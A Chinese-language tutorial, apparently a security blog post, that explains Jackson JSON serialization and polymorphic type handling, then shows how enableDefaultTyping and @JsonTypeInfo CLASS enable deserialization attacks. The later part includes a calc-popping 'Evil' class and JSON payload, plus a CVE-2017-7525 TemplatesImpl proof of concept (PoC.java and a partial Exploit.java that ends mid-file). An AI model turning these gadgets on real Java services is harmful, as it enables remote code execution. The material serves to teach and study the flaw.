

深入浅出解析Jackson反序列化

- - -

# 深入浅出解析Jackson反序列化

## 什么是jackson

### 简介

Jackson 是当前用的比较广泛的，用来序列化和反序列化 json 的 Java 的开源框架。Jackson 社区相对比较活跃，更新速度也比较快， 从 Github 中的统计来看，Jackson 是最流行的 json 解析器之一 。 Spring MVC 的默认 json 解析器便是 Jackson。 Jackson 优点很多。 Jackson 所依赖的 jar 包较少 ，简单易用。与其他 Java 的 json 的框架 Gson 等相比， Jackson 解析大的 json 文件速度比较快；Jackson 运行时占用内存比较低，性能比较好；Jackson 有灵活的 API，可以很容易进行扩展和定制。

Jackson 的核心模块由三部分组成。

-   jackson-core，核心包，提供基于"流模式"解析的相关 API，它包括 JsonPaser 和 JsonGenerator。 Jackson 内部实现正是通过高性能的流模式 API 的 JsonGenerator 和 JsonParser 来生成和解析 json。
-   jackson-annotations，注解包，提供标准注解功能；
-   jackson-databind ，数据绑定包， 提供基于"对象绑定" 解析的相关 API （ ObjectMapper ） 和"树模型" 解析的相关 API （JsonNode）；基于"对象绑定" 解析的 API 和"树模型"解析的 API 依赖基于"流模式"解析的 API。

### 依赖

maven依赖项

```plain
<dependencies>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.9.3</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-core</artifactId>
            <version>2.9.3</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-annotations</artifactId>
            <version>2.9.3</version>
        </dependency>
    </dependencies>
```

### ObjectMapper

Jackson 最常用的 API 就是基于"对象绑定" 的 ObjectMapper：

-   ObjectMapper可以从字符串，流或文件中解析JSON，并创建表示已解析的JSON的Java对象。 将JSON解析为Java对象也称为从JSON反序列化Java对象。
-   ObjectMapper也可以从Java对象创建JSON。 从Java对象生成JSON也称为将Java对象序列化为JSON。
-   Object映射器可以将JSON解析为自定义的类的对象，也可以解析置JSON树模型的对象。

之所以称为ObjectMapper是因为它将JSON映射到Java对象（反序列化），或者将Java对象映射到JSON（序列化）。

示例代码如下

将json转化为对象

```plain
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;

public class JacksonExample {
    public static void main(String[] args) {
        String json = "{\"name\":\"John\", \"age\":30}";

        ObjectMapper objectMapper = new ObjectMapper();
        try {
            // 将JSON字符串转换为Java对象
            Person person = objectMapper.readValue(json, Person.class);

            // 输出转换后的Java对象
            System.out.println("Name: " + person.getName());
            System.out.println("Age: " + person.getAge());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

class Person {
    private String name;
    private int age;

    // 必须提供无参构造函数
    public Person() {
    }

    // Getters and Setters

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }
}
```

将对象转化为json

-   writeValue()
-   writeValueAsString()
-   writeValueAsBytes()

```plain
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;

import java.io.FileOutputStream;

public class JacksonExample {
    public static void main(String[] args) {
        ObjectMapper objectMapper = new ObjectMapper();
        Person person = new Person();
        person.setAge(123);
        person.setName("fakes0u1");

        try {
            String jsonstring = objectMapper.writeValueAsString(person);
            System.out.println(jsonstring);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

class Person {
    private String name;
    private int age;

    // 必须提供无参构造函数
    public Person() {
    }

    // Getters and Setters

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }
}
```

### JsonParser

Jackson JsonParser类是一个底层一些的JSON解析器。 它类似于XML的Java StAX解析器，差别是JsonParser解析JSON而不解析XML。

Jackson JsonParser的运行层级低于Jackson ObjectMapper。 这使得JsonParser比ObjectMapper更快，但使用起来也比较麻烦。

使用JsonParser需要先创建一个JsonFactory

‍

```plain
package jackson;

import com.fasterxml.jackson.core.JsonFactory;
import com.fasterxml.jackson.core.JsonParser;

public class JacksonJsonParser {
    public static void main(String[] args){
        String json = "{\"name\":\"fakes0u1\",\"age\":123}";
        JsonFactory jsonFactory = new JsonFactory();
        try {
            JsonParser parser = jsonFactory.createParser(json);
            System.out.println(parser);
        }
        catch (Exception e ){
            e.printStackTrace();
        }
    }
}
class Person1 {
    private String name;
    private int age;

    // 必须提供无参构造函数
    public Person1() {
    }

    // Getters and Setters

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }
}
```

一旦创建了Jackson JsonParser，就可以使用它来解析JSON。 JsonParser的工作方式是将JSON分解为一系列令牌，可以一个一个地迭代令牌。

这是一个JsonParser示例，它简单地循环遍历所有标记并将它们输出到System.out。 这是一个实际上很少用示例，只是展示了将JSON分解成的令牌，以及如何遍历令牌的基础知识。

可以使用JsonParser的nextToken()获得一个JsonToken。 可以使用此JsonToken实例检查给定的令牌。 令牌类型由JsonToken类中的一组常量表示。 这些常量是

```plain
package jackson;

import com.fasterxml.jackson.core.JsonFactory;
import com.fasterxml.jackson.core.JsonParser;
import com.fasterxml.jackson.core.JsonToken;

public class JacksonJsonParser {
    public static void main(String[] args){
        String json = "{\"name\":\"fakes0u1\",\"age\":123}";
        JsonFactory jsonFactory = new JsonFactory();
        try{
            JsonParser parser = jsonFactory.createParser(json);
            while(!parser.isClosed()){
                JsonToken jsonToken = parser.nextToken();
                System.out.println(jsonToken);
            }
        }
        catch (Exception e ){
            e.printStackTrace();
        }
    }
}
class Person1 {
    private String name;
    private int age;

    // 必须提供无参构造函数
    public Person1() {
    }

    // Getters and Setters

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }
}
```

输出

```plain
START\_OBJECT
FIELD\_NAME
VALUE\_STRING
FIELD\_NAME
VALUE\_NUMBER\_INT
END\_OBJECT
null
```

使用equals方法 检查如果标记的字段名称是相同的 就返回其值

指向的令牌是字符串字段值，则getValueAsString()返回当前令牌值作为字符串。 如果指向的令牌是整数字段值，则getValueAsInt()返回当前令牌值作为int值。 JsonParser具有更多类似的方法来获取不同类型的curren令牌值（例如boolean，short，long，float，double等）。

```plain
package jackson;

import com.fasterxml.jackson.core.JsonFactory;
import com.fasterxml.jackson.core.JsonParser;
import com.fasterxml.jackson.core.JsonToken;

public class JacksonJsonParser {
    public static void main(String[] args){
        String json = "{\"name\":\"fakes0u1\",\"age\":123}";
        JsonFactory jsonFactory = new JsonFactory();
        Person1 person1 =new Person1();
        try{
            JsonParser parser = jsonFactory.createParser(json);
            while(!parser.isClosed()){
                JsonToken jsonToken = parser.nextToken();
                if (JsonToken.FIELD_NAME.equals(jsonToken)){
                    String fieldName = parser.getCurrentName();
                    System.out.println(fieldName);

                    jsonToken=parser.nextToken();

                    if ("name".equals(fieldName)){
                        person1.name = parser.getValueAsString();

                    }
                    else if ("age".equals(fieldName)){
                        person1.age = parser.getValueAsInt();
                    }
                }

                System.out.println("person's name is "+person1.name);
                System.out.println("person's age is "+person1.age);
            }
        }
        catch (Exception e ){
            e.printStackTrace();
        }
    }
}
class Person1 {
    public  String name;
    public  int age;

    // 必须提供无参构造函数
    public Person1() {
    }

    // Getters and Setters

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }
}
```

输出

```plain
person's name is null
person's age is 0
name
person's name is fakes0u1
person's age is 0
age
person's name is fakes0u1
person's age is 123
person's name is fakes0u1
person's age is 123
person's name is fakes0u1
person's age is 123
```

### JsonGenerator

Jackson JsonGenerator用于从Java对象（或代码从中生成JSON的任何数据结构）生成JSON。

同样的 使用JsonGenerator也需要先创建一个JsonFactory 从其中使用createGenerator() 来创建一个JsonGenerator

```plain
package jackson;

import com.fasterxml.jackson.core.*;

import java.io.File;

public class JacksonJsonParser {
    public static void main(String[] args){
        JsonFactory jsonFactory = new JsonFactory();
        Person1 person1 =new Person1();
        try{
            JsonGenerator jsonGenerator = jsonFactory.createGenerator(new File("output.json"), JsonEncoding.UTF8);
            jsonGenerator.writeStartObject();
            jsonGenerator.writeStringField("name","fakes0u1");
            jsonGenerator.writeNumberField("age",123);
            jsonGenerator.writeEndObject();

            jsonGenerator.close();

        }
        catch (Exception e ){
            e.printStackTrace();
        }
    }
}


class Person1 {
    public  String name;
    public  int age;

    // 必须提供无参构造函数
    public Person1() {
    }

    // Getters and Setters

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }
}
```

## 使用jackson进行序列化和反序列化

Jackson提供了ObjectMapper.writeValueAsString()和ObjectMapper.readValue()两个方法来实现序列化和反序列化的功能。这两种方法我们在上面也已经测试过了 所以就不再赘述

## 多态问题的解决

Java多态就是同一个接口使用不同的实例而执行不同的操作

在Jackson中 JacksonPolymorphicDeserialization可以解决这个问题 在反序列化某个类对象的过程中 如果类的成员不是具体类型 比如是Object 接口 或者 抽象类 那么可以在JSON字符串中 指定其类型 Jackson将生成具体类型的实例

具体来说就是 将具体的子类信息绑定在序列化的内容中 以便于后续反序列化的时候 直接得到目标子类对象 我们可以通过DefaultTyping 和 @JsonTypeInfo 注解来实现

### DefaultTyping

Jackson提供一个enableDefaultTyping设置 包含四个值

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002919-223148dc-7f1d-1.png)

#### JAVA\_LANG\_OBJECT

当被序列化或反序列化的类里的属性被声明为一个Object类型时 会对该Object类型的属性进行序列化和反序列化 并明确规定类名

```plain
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;

public class JSTest {
    public static void main(String[] args) throws Exception{
        Person2 person2 = new Person2();
        person2.age = 123;
        person2.name = "fakes0u1";
        person2.object = new Hacker();

        ObjectMapper objectMapper = new ObjectMapper();

        objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT);

        String jsonstring = objectMapper.writeValueAsString(person2);
        System.out.println(jsonstring);

        Person2 p2 = objectMapper.readValue(jsonstring,Person2.class);
        System.out.println(p2);
    }
}
```

在设置了JAVA\_LANG\_OBJECT的时候会输出

```plain
{"name":"fakes0u1","age":123,"object":["jackson.Hacker",{"skill":"moyu"}]}
Person2.age=123,Person2.name=fakes0u1,jackson.Hacker@f6c48ac
```

没设置的时候会输出

```plain
{"name":"fakes0u1","age":123,"object":{"skill":"moyu"}}
Person2.age=123,Person2.name=fakes0u1,{skill=moyu}
```

#### OBJECT\_AND\_NON\_CONCRETE

当类中有Interface AbstractClass类时 对其进行序列化和反序列化 这也是enableDefaultTyping() 的默认选项

加上一个接口

```plain
package jackson;

public interface Sex {
    public void setSex(int sex);
    public int getSex();
}
```

和实现接口的类

```plain
package jackson;

public class MySex implements Sex{
    int sex;

    @Override
    public void setSex(int sex){
        this.sex = sex;
    }

    @Override
    public int getSex(){
        return sex;
    }
}
```

最后加上OBJECT\_AND\_NON\_CONCRETE参数

```plain
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;

public class JSTest {
    public static void main(String[] args) throws Exception{
        Person2 person2 = new Person2();
        person2.age = 123;
        person2.name = "fakes0u1";
        person2.object = new Hacker();
        person2.sex = new MySex();

        ObjectMapper objectMapper = new ObjectMapper();

        objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.OBJECT_AND_NON_CONCRETE);

        String jsonstring = objectMapper.writeValueAsString(person2);
        System.out.println(jsonstring);

        Person2 p2 = objectMapper.readValue(jsonstring,Person2.class);
        System.out.println(p2);
    }
}
```

```plain
{"name":"fakes0u1","age":123,"object":["jackson.Hacker",{"skill":"moyu"}],"sex":["jackson.MySex",{"sex":0}]}
Person2.age=123,Person2.name=fakes0u1,jackson.Hacker@239963d8,jackson.MySex@3abbfa04
```

可以看到接口也被成功的序列化和反序列化

#### NON\_CONCRETE\_AND\_ARRAYS

支持Arrays类型

可以在原来的test文件上直接修改

```plain
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;

public class JSTest {
    public static void main(String[] args) throws Exception{
        Person2 person2 = new Person2();
        person2.age = 123;
        person2.name = "fakes0u1";
        Hacker[] hacker = new Hacker[2];
        hacker[0] = new Hacker();
        hacker[1] = new Hacker();
        person2.object = hacker;
        person2.sex = new MySex();

        ObjectMapper objectMapper = new ObjectMapper();

        objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.OBJECT_AND_NON_CONCRETE);

        String jsonstring = objectMapper.writeValueAsString(person2);
        System.out.println(jsonstring);

        Person2 p2 = objectMapper.readValue(jsonstring,Person2.class);
        System.out.println(p2);
    }
}
```

```plain
{"name":"fakes0u1","age":123,"object":["[Ljackson.Hacker;",[{"skill":"moyu"},{"skill":"moyu"}]],"sex":["jackson.MySex",{"sex":0}]}
Person2.age=123,Person2.name=fakes0u1,[Ljackson.Hacker;@e45f292,jackson.MySex@5f2108b5
```

这里直接就是这种形式

```plain
Hacker[] hackers = new Hacker[2]; // 创建长度为 2 的 Hacker 数组

hackers[0] = new Hacker("Alice"); // 为第一个元素分配一个 Hacker 对象
hackers[1] = new Hacker("Bob"); // 为第二个元素分配另一个 Hacker 对象
```

每个元素可以存储一个hacker对象的引用 这里的数组中的元素实际上是Hacker类的引用 并不是实际的对象 需要在使用之前通过实例化或赋值操作为数组元素分配实际的对象

#### NON\_FINAL

除了前面所有的特征外 包含即将被序列化的类里的全部、非final的属性将其进行序列化和反序列化

```plain
package jackson;

public class Hacker {
    public String skill = "moyu";
}

class Person2{
    public String name = null;
    public int age = 0;
    public Object object;
    public Sex sex;
    public Hacker hacker;

    @Override
    public String toString(){
        return String.format("Person2.age=%d,Person2.name=%s,%s,%s,%s",age,name,object == null ? "null" : object,sex == null ? "null" : sex,hacker == null ? "null" : hacker);
    }
}
```

```plain
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;

public class JSTest {
    public static void main(String[] args) throws Exception{
        Person2 person2 = new Person2();
        person2.age = 123;
        person2.name = "fakes0u1";
        Hacker[] hacker = new Hacker[2];
        hacker[0] = new Hacker();
        hacker[1] = new Hacker();
        person2.object = hacker;
        person2.sex = new MySex();
        person2.hacker = new Hacker();

        ObjectMapper objectMapper = new ObjectMapper();

        objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_FINAL);

        String jsonstring = objectMapper.writeValueAsString(person2);
        System.out.println(jsonstring);

        Person2 p2 = objectMapper.readValue(jsonstring,Person2.class);
        System.out.println(p2);
    }
}
```

| DefaultTyping类型 | 描述说明 |
| --- | --- |
| JAVA\_LANG\_OBJECT | 属性的类型为Object |
| OBJECT\_AND\_NON\_CONCRETE | 属性的类型为Object、Interface、AbstractClass |
| NON\_CONCRETE\_AND\_ARRAYS | 属性的类型为Object、Interface、AbstractClass、Array |
| NON\_FINAL | 所有除了声明为final之外的属性 |

### @JsonTypeInfo注解

@JsonTypeInfo注解是Jackson多态类型绑定的一种方式，支持下面5种类型的取值：

```plain
@JsonTypeInfo(use = JsonTypeInfo.Id.NONE)
@JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
@JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)
@JsonTypeInfo(use = JsonTypeInfo.Id.NAME)
@JsonTypeInfo(use = JsonTypeInfo.Id.CUSTOM)
```

#### JsonTypeInfo.Id.NONE

用于指定在序列化和反序列化过程中不包含任何类型标识 不使用识别码

```plain
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;

public class JSTest {
    public static void main(String[] args) throws Exception{
        Person2 person2 = new Person2();
        person2.age = 123;
        person2.name = "fakes0u1";
        Hacker[] hacker = new Hacker[2];
        hacker[0] = new Hacker();
        hacker[1] = new Hacker();
        person2.object = hacker;


        ObjectMapper objectMapper = new ObjectMapper();


        String jsonstring = objectMapper.writeValueAsString(person2);
        System.out.println(jsonstring);

        Person2 p2 = objectMapper.readValue(jsonstring,Person2.class);
        System.out.println(p2);
    }
}
```

```plain
package jackson;

import com.fasterxml.jackson.annotation.JsonTypeId;
import com.fasterxml.jackson.annotation.JsonTypeInfo;

public class Hacker {
    public String skill = "moyu";
}

class Person2{
    public String name = null;
    public int age = 0;
    @JsonTypeInfo(use = JsonTypeInfo.Id.NONE)
    public Object object;


    @Override
    public String toString(){
        return String.format("Person2.age=%d,Person2.name=%s,%s",age,name,object == null ? "null" : object);
    }
}
```

输出

```plain
{"name":"fakes0u1","age":123,"object":[{"skill":"moyu"},{"skill":"moyu"}]}
Person2.age=123,Person2.name=fakes0u1,[{skill=moyu}, {skill=moyu}]
```

因为是不使用识别码 所以输出没有什么不一样

#### JsonTypeInfo.Id.CLASS

使用完全限定类名做识别

我们直接将person类中的注释修改为JsonTypeInfo.Id.CLASS 查看输出

```plain
{"name":"fakes0u1","age":123,"object":{"@class":"jackson.Hacker","skill":"moyu"}}
Person2.age=123,Person2.name=fakes0u1,jackson.Hacker@5702b3b1
```

我们可以看到 在序列化和反序列化的信息中 均有具体类的信息 在Jackson反序列化的时候如果使用了`JsonTypeInfo.Id.CLASS`修饰的话，可以通过@class的方式指定相关类，并进行相关调用。

#### JsonTypeInfo.Id.MINIMAL\_CLASS

当我们将object的注释修改为JsonTypeInfo.Id.MINIMAL\_CLASS时

输出为

```plain
{"name":"fakes0u1","age":123,"object":{"@c":"jackson.Hacker","skill":"moyu"}}
Person2.age=123,Person2.name=fakes0u1,jackson.Hacker@4b952a2d
```

看起来就是将上面的@class的形式给简写了

#### JsonTypeInfo.Id.NAME

将注释修改为JsonTypeInfo.Id.NAME后

序列化的输出变为

```plain
{"name":"fakes0u1","age":123,"object":{"@type":"Hacker","skill":"moyu"}}
```

多出一个@type 这里并没有像上面的CLASS一样 给出具体包名和类名 同时在反序列化的时候还会报错 也就是说 这个注释并不适用于反序列化过程

#### JsonTypeInfo.Id.CUSTOM

自定义识别码，由`@JsonTypeIdResolver`对应，由用户来自定义 并不能直接使用

通过上面的测试 我们发现在使用JsonTypeInfo.Id.CLASS和JsonTypeInfo.Id.MINIMAL\_CLASS修饰Object类型的属性时 会触发Jackson的反序列化

## 反序列化中类属性方法的调用

针对JacksonPolymorphicDeserialization也就是Jackson中多态的反序列化场景进行分析

### 使用DefaultTyping时

```plain
package jackson;

import com.fasterxml.jackson.annotation.JsonTypeId;
import com.fasterxml.jackson.annotation.JsonTypeInfo;

public class Hacker {
    public String skill = "moyu";
}

class Person2{
    public String name;
    public int age;

    public Sex sex;

    public Object object;


    @Override
    public String toString(){
        return String.format("Person2.age=%d,Person2.name=%s,%s",age,name,sex == null ? "null" : sex);
    }
}
```

```plain
package jackson;

public class MySex implements Sex{
    int sex;
    public MySex(){
        System.out.println("MySex构造函数");
    }

    @Override
    public void setSex(int sex){
        System.out.println("MySex.setSex");
        this.sex = sex;
    }

    @Override
    public int getSex(){
        System.out.println("MySex.getSex");
        return sex;
    }
}
```

```plain
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;

public class JSTest {
    public static void main(String[] args) throws Exception{
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();
        String jsonstring = "{\"age\":6,\"name\":\"mi1k7ea\",\"sex\":[\"jackson.MySex\",{\"sex\":1}]}";

        Person2 p2 = objectMapper.readValue(jsonstring,Person2.class);
        System.out.println(p2);
    }
}
```

最终输出

```plain
MySex构造函数
MySex.setSex
Person2.age=6,Person2.name=mi1k7ea,jackson.MySex@46d56d67
```

是对其中的sex进行了反序列化的

### 使用@JsonTypeInfo注解

我们再来试试@JsonTypeInfo注解

```plain
package jackson;

import com.fasterxml.jackson.annotation.JsonTypeId;
import com.fasterxml.jackson.annotation.JsonTypeInfo;

public class Hacker {
    public String skill = "moyu";
}

class Person2{
    public String name;
    public int age;
    @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
    public Sex sex;

    public Object object;


    @Override
    public String toString(){
        return String.format("Person2.age=%d,Person2.name=%s,%s",age,name,sex == null ? "null" : sex);
    }
}
```

```plain
package jackson;

public class MySex implements Sex{
    int sex;
    public MySex(){
        System.out.println("MySex构造函数");
    }

    @Override
    public void setSex(int sex){
        System.out.println("MySex.setSex");
        this.sex = sex;
    }

    @Override
    public int getSex(){
        System.out.println("MySex.getSex");
        return sex;
    }
}
```

```plain
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;

public class JSTest {
    public static void main(String[] args) throws Exception{
        ObjectMapper objectMapper = new ObjectMapper();
        //objectMapper.enableDefaultTyping();
        String jsonstring = "{\"age\":6,\"name\":\"mi1k7ea\",\"sex\":[\"jackson.MySex\",{\"sex\":1}]}";

        Person2 p2 = objectMapper.readValue(jsonstring,Person2.class);
        System.out.println(p2);
    }
}
```

最终输出

```plain
MySex构造函数
MySex.setSex
Person2.age=6,Person2.name=mi1k7ea,jackson.MySex@46d56d67
```

也是和之前使用DefaultTyping是同样的作用

### 流程分析

Jackson的反序列化的过程分为两步 第一步通过构造函数生成实例 第二步是对实例进行设置属性值

对其进行调试

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003002-3b8424b2-7f1d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003009-3f97dfc6-7f1d-1.png)

调用到BeanDeserializer中的deserialize函数 跟进

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003015-430e4c8a-7f1d-1.png)

调用vanillaDeserialize函数 跟进

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003021-47275bd6-7f1d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003026-49c4c4c8-7f1d-1.png)

调用createUsingDefault函数 从而调用指定类的无参构造函数来生成类实例 跟进一下createUsingDefault函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003031-4ca65e0e-7f1d-1.png)

调用到call函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003037-50ad8298-7f1d-1.png)

调用`_constructor.newInstance()` 实现无参的构造函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003043-540d0418-7f1d-1.png)

成功调用到Person2类中的构造函数 从而先完成了bean的实例化

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003048-571ad3a6-7f1d-1.png)

在完成了类的实例化之后 就需要对类中的属性进行赋值 以键值对的形式进行匹配

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003106-61d4bc26-7f1d-1.png)

以do while循环的形式对其中的属性进行赋值 跟进一下`deserializeAndSet`函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003117-6879c378-7f1d-1.png)

检查属性类型随后跟进deserialize函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003124-6c265860-7f1d-1.png)

先对其进行解析 然后到 set处时 就已经是解析好的内容了 随后进行赋值

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003129-6f751678-7f1d-1.png)

上面对age进行赋值 随后是name 对于字符串型的值会跟进到这里

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003137-740eba18-7f1d-1.png)  
随后进行赋值 然后是sex对象 跟进`deserializeWithType`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003149-7b1e9ed6-7f1d-1.png)

这里返回null 于是继续会跟进到`deserializeTypedFromObject`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003155-7ee771e6-7f1d-1.png)

随后会对MySex对象的构造函数进行调用

随后会和上面一样对MySex之中的属性进行赋值 会调用到set方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003207-862e3fca-7f1d-1.png)  
赋值成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003211-8871092a-7f1d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003217-8c15e5fa-7f1d-1.png)

## Jackson反序列化漏洞

### 前提条件

满足以下三个条件之一 存在Jackson反序列化漏洞 也就是我们上面提到过的 会触发json中的类解析的注解或者函数

-   调用了ObjectMapper.enableDefaultTyping()函数；
-   对要进行反序列化的类的属性使用了值为JsonTypeInfo.Id.CLASS的@JsonTypeInfo注解；
-   对要进行反序列化的类的属性使用了值为JsonTypeInfo.Id.MINIMAL\_CLASS的@JsonTypeInfo注解；

### 漏洞原理

当我们使用的`JacksonPolymorphicDeserialization`配置有问题的时候 Jackson反序列化会调用属性所属类的构造函数和setter方法 我们就可以在这里做文章

我们可以以要进行反序列化的类的属性是否为Object类分为两种

### 属性中没有Object类时

那么 我们不能对属性进行操作 我们只能让他的构造函数或者是setter方法中存在危险函数 如下

```plain
public void setSex(int sex){
        System.out.println("MySex.setSex");

        this.sex = sex;

        try{
            Runtime.getRuntime().exec("calc");
        }
        catch (Exception e ){
            e.printStackTrace();
        }

    }
```

运行即可弹出计算器

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110003252-a0e57aea-7f1d-1.png)

### 属性中有Object类时

因为Object是任意类型的父类 因此扩大了我们的攻击面 我们只需要在目标服务端中存在的且构造函数或setter方法存在漏洞的类即可进行攻击利用 例如 存在一个恶意类Evil 在其构造函数或者是setter方法中存在任意代码执行漏洞

```plain
package jackson;

public class Evil {
    public String cmd;

    public void setCmd(String cmd) {
        this.cmd = cmd;
        try {
            Runtime.getRuntime().exec("calc");
        }
        catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

然后我们将其写到json中

```plain
package jackson;

import com.fasterxml.jackson.annotation.JsonTypeId;
import com.fasterxml.jackson.annotation.JsonTypeInfo;

public class Hacker {
    public String skill = "moyu";
}

class Person2{
    public String name;
    public int age;
    @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
    public Sex sex;

    public Person2(){
        System.out.println("person 构造函数");
    }

    public Object object;


    @Override
    public String toString(){
        return String.format("Person2.age=%d,Person2.name=%s,%s",age,name,object == null ? "null" : object);
    }
}
```

```plain
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;

public class JSTest {
    public static void main(String[] args) throws Exception{
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();
        String jsonstring = "{\"age\":6,\"name\":\"fakes0u1\",\"object\":[\"jackson.Evil\",{\"cmd\":\"calc\"}]}";

        Person2 p2 = objectMapper.readValue(jsonstring,Person2.class);
        System.out.println(p2);
    }
}
```

可以成功执行calc

## CVE-2017-7525 TemplatesImpl利用链

### 影响版本

Jackson 2.6系列 < 2.6.7.1

Jackson 2.7系列 < 2.7.9.1

Jackson 2.8系列 < 2.8.8.1

JDK使用1.7版本的

### 复现

jar包：jackson-annotations-2.7.9，jackson-core-2.7.9，jackson-databind-2.7.9，commons-codec-1.12，commons-io-2.5，spring-core-4.3.13.RELEASE。

PoC.java

```plain
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;
import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.springframework.util.FileCopyUtils;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class PoC {
    public static void main(String[] args)  {
        String exp = readClassStr("xxx\\Exploit.class");
        String jsonInput = "见下方图片";
        System.out.printf(jsonInput);
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        fakes0u1 fakes0u1;
        try {
            fakes0u1 = mapper.readValue(jsonInput, fakes0u1.class);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }

    public static String readClassStr(String cls){
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        try {
            FileCopyUtils.copy(new FileInputStream(new File(cls)),byteArrayOutputStream);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encode(byteArrayOutputStream.toByteArray());
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114144235-feeb6958-82b8-1.png)

Exploit.java

```plain
package jackson;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.*;

public class Exploit extends AbstractTranslet {
    public Exploit() throws Exception {

        try {
            BufferedReader br = null;

            Process p = Runtime.getRuntime().exec("calc");
            br = new BufferedReader(new InputStreamReader(p.getInputStream()));

            String line = null;
            StringBuilder sb = new StringBuilder();
            while ((line = br.readLine()) != null) {
                sb.append(line + "\n");
                System.out.println(sb);
            }
            File file = new File("result.txt");

            if(!file.exists()){
                file.createNewFile();
            }


            FileWriter fileWritter = new FileWriter(file.getName(),true);
            BufferedWriter bufferWritter = new BufferedWriter(fileWritter);
